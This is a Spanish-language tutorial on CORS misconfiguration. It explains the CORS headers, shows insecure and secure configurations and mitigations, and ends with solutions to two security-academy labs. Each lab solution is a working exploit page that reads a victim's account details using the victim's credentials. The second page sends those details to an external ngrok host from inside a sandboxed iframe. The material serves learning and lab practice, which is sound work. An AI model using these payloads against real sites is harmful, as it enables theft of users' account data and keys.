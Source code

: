 -- -
La vulnerabilidad CORS (Cross-Origin Resource Sharing) se relaciona con una política de seguridad web que permite o restringe cómo los recursos en una página web pueden ser solicitados desde otro dominio. CORS está diseñado para evitar ataques de tipo Cross-Site Scripting (XSS) y Cross-Site Request Forgery (CSRF), pero si no se configura adecuadamente, puede introducir vulnerabilidades.

### ¿Qué es CORS?
CORS es un mecanismo que usa cabeceras HTTP adicionales para dar a un servidor la capacidad de indicar cualquier origen (dominio, esquema o puerto) que tiene permiso para acceder a sus recursos. Por defecto, los navegadores web imponen una política de mismo origen (Same-Origin Policy), que restringe cómo los recursos en una página web se pueden solicitar desde otro origen.

### Funcionamiento de CORS
Cuando una aplicación web realiza una solicitud HTTP a un dominio diferente (cross-origin request), el navegador puede enviar una solicitud preliminar (preflight request) con el método HTTP OPTIONS para verificar si el servidor permite la solicitud. El servidor responde con las cabeceras apropiadas:

- `Access-Control-Allow-Origin`: Indica qué orígenes tienen permiso para acceder al recurso. Puede ser un valor específico (e.g., `https://ejemplo.com`) o un asterisco (`*`) para permitir cualquier origen.
- `Access-Control-Allow-Methods`: Especifica los métodos HTTP permitidos (e.g., `GET`, `POST`, `PUT`).
- `Access-Control-Allow-Headers`: Indica los encabezados que se pueden usar en la solicitud.
- `Access-Control-Allow-Credentials`: Si está presente y es `true`, permite que se envíen credenciales (cookies, autenticaciones HTTP).

### Vulnerabilidad de CORS
Una configuración incorrecta de CORS puede permitir que un atacante realice solicitudes maliciosas desde un origen no confiable. Aquí algunos escenarios comunes de vulnerabilidad:

1. **Permitir todos los orígenes** (`Access-Control-Allow-Origin: *`): Permitir cualquier origen puede exponer datos sensibles si el recurso es accesible sin restricciones adecuadas.
2. **Falta de validación adecuada**: No validar correctamente los orígenes permitidos puede permitir que orígenes no autorizados accedan a recursos sensibles.
3. **Allow-Credentials con Allow-Origin**: Usar `Access-Control-Allow-Credentials: true` junto con `Access-Control-Allow-Origin: *` es peligroso porque permite que cualquier sitio envíe credenciales, lo cual compromete la seguridad.

### Ejemplo de configuración insegura
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
Esta configuración es insegura porque permite que cualquier origen envíe solicitudes autenticadas, lo cual puede llevar a ataques de tipo CSRF.

### Ejemplo de configuración segura
Para una configuración más segura, especifica orígenes de confianza y evita el uso de `*` cuando se permiten credenciales:
```http
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
Access-Control-Allow-Credentials: true
```
Aquí, solo `https://example.com` tiene permiso para acceder al recurso y solo mediante métodos `GET` y `POST`.

### Mitigación
Para mitigar las vulnerabilidades de CORS:
- **Restringe orígenes permitidos**: Limita los orígenes a aquellos que son absolutamente necesarios.
- **Valida cabeceras**: Asegúrate de que las cabeceras CORS sean configuradas correctamente.
- **Auditoría y pruebas**: Regularmente audita y prueba la configuración de CORS para detectar posibles fallos.

En resumen, CORS es una herramienta poderosa para controlar el acceso a recursos web entre diferentes orígenes, pero debe configurarse cuidadosamente para evitar introducir vulnerabilidades que puedan ser explotadas por atacantes.

### Diagrama de flujo
[Atacante] --> [Envía script a la víctima]
           ↓
[Víctima] --> [Ejecuta script en navegador]
           ↓
[Navegador] --> [Envia solicitud a servidor objetivo]
             --> [Incluye cookies de la víctima]
           ↓
[Servidor objetivo] --> [Responde con datos sensibles]
           ↓
[Navegador] --> [Envía datos al servidor del atacante]
           ↓
[Servidor del atacante] --> [Recibe datos exfiltrados]


# Solucion a labs: 
-- -
## Lab 1:
```html
<html>
<body>
<script>
var xhr = new XMLHttpRequest();
var url = "https://0a1a007704d32a8281f59fa800410046.web-security-academy.net";

xhr.onreadystatechange = function () {
    if (xhr.readyState == XMLHttpRequest.DONE){
        fetch("/log?key=" + xhr.responseText)
    }
}

xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null);
</script>
</body>
</html>

```

## Lab 2:
```html
<!DOCTYPE html>
<html>
    <body>
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="
        <script>
            var xhr = new XMLHttpRequest();
            var url = 'https://0a1a007704d32a8281f59fa800410046.web-security-academy.net';

            xhr.onreadystatechange = function () {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch('https://b475-2800-810-505-690-46cf-1896-a812-4ce0.ngrok-free.app/log?key=' + xhr.responseText)
                }
            }

            xhr.open('GET', url + '/accountDetails', true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>"></iframe>
    </body>
</html>

```